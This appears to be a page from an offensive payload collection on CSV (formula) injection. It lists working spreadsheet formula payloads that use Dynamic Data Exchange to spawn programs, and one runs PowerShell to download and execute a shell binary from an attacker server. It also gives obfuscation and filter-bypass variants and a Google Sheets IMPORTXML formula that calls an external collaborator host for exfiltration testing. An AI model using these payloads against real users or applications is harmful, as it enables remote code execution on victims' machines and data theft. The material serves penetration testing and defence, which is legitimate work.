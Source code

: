 # CSV Injection

> Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Summary

* [Methodology](#methodology)
    * [Google Sheets](#google-sheets)
* [References](#references)

## Methodology

CSV Injection, also known as Formula Injection, is a security vulnerability that occurs when untrusted input is included in a CSV file. Any formula can be started with:

```powershell
=
+
–
@
```

Basic exploits with **Dynamic Data Exchange**.

* Spawn a calc

    ```powershell
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell download and execute

    ```powershell
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* Prefix obfuscation and command chaining

    ```powershell
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* Using rundll32 instead of cmd

    ```powershell
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.

    ```powershell
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

Technical details of the above payloads:

* `cmd` is the name the server can respond to whenever a client is trying to access the server
* `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
* `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

### Google Sheets

Google Sheets allows some additional formulas that are able to fetch remote URLs:

* [IMPORTXML](https://support.google.com/docs/answer/3093342?hl=en)(url, xpath_query, locale)
* [IMPORTRANGE](https://support.google.com/docs/answer/3093340)(spreadsheet_url, range_string)
* [IMPORTHTML](https://support.google.com/docs/answer/3093339)(url, query, index)
* [IMPORTFEED](https://support.google.com/docs/answer/3093337)(url, [query], [headers], [num_items])
* [IMPORTDATA](https://support.google.com/docs/answer/3093335)(url)

So one can test blind formula injection or a potential for data exfiltration with:

```c
=IMPORTXML("http://burp.collaborator.net/csv", "//a/@href")
```

Note: an alert will warn the user a formula is trying to contact an external resource and ask for authorization.

## References

* [CSV Excel Macro Injection - Timo Goosen, Albinowax - Jun 21, 2022](https://owasp.org/www-community/attacks/CSV_Injection)
* [CSV Excel formula injection - Google Bug Hunter University - May 22, 2022](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV Injection – A Guide To Protecting CSV Files - Akansha Kesharwani - 30/11/2017](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - Adam Chester - November 05, 2015](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - George Mauer - 7 October, 2017](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods - ReversingLabs - September 24, 2018](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection - we45 - October 5, 2020](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)
